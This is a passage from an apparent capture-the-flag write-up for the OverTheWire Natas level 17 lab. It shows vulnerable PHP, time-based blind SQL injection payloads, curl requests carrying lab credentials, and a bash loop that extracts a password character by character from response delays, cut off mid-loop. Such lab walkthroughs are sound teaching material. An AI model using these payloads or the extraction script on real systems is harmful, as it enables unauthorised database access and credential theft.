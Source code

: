 ```php
    if($res) {
    if(mysql_num_rows($res) > 0) {
        //echo "This user exists.<br>";
    } else {
        //echo "This user doesn't exist.<br>";
    }
    } else {
        //echo "Error in query.<br>";
    }

    mysql_close($link);
} else {
?>

<form action="index.php" method="POST">
Username: <input name="username"><br>
<input type="submit" value="Check existence" />
</form>
<? } ?>
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

```text
natas18" and sleep(3) #
```

```text
curl -o /dev/null -s -X POST "http://natas17.natas.labs.overthewire.org/index.php" -H "Authorization: Basic bmF0YXMxNzo4UHMzSDBHV2JuNXJkOVM3R21BZGdRTmRraFBrcTljdw==" --data "username=natas18"%"22+and++sleep"%"283"%"29+"%"23" -w %{time_total}
```

```text
natas18" AND IF(1=1, SLEEP(3), 0)#
```

```text
natas18" AND IF((SELECT MID(username, 1, 1) FROM users WHERE 
username="natas18")='n', SLEEP(3), 0) #
```

```bash
passwordlenght=32
CurrentChar=0
password=""
sleeptime=10
MIDCounter=1
while [ $CurrentChar -ne $passwordlenght ]
do
    for letter in {{a..z},{A..Z},{0..9}}; do
        injection="\" AND IF((SELECT MID(password, 1, $MIDCounter) FROM users WHERE username=\"natas18\")='$password$letter', SLEEP($sleeptime), 0) #"
        #echo $injection
        data="username=natas18$injection"
        curl_output=$(curl -o /dev/null -s  'http://natas17.natas.labs.overthewire.org/index.php' -H 'Authorization: Basic bmF0YXMxNzo4UHMzSDBHV2JuNXJkOVM3R21BZGdRTmRraFBrcTljdw==' -d "$data" -w %{time_total})
        time=$(echo $curl_output | cut -d "." -f 1)
        if [ $time -ge 10 ]; then
            password="${password}${letter}"
            CurrentChar=$(( $CurrentChar + 1 ))
            MIDCounter=$(( $MIDCounter + 1 ))
            echo "[+] Password: $password"
            continue 2
```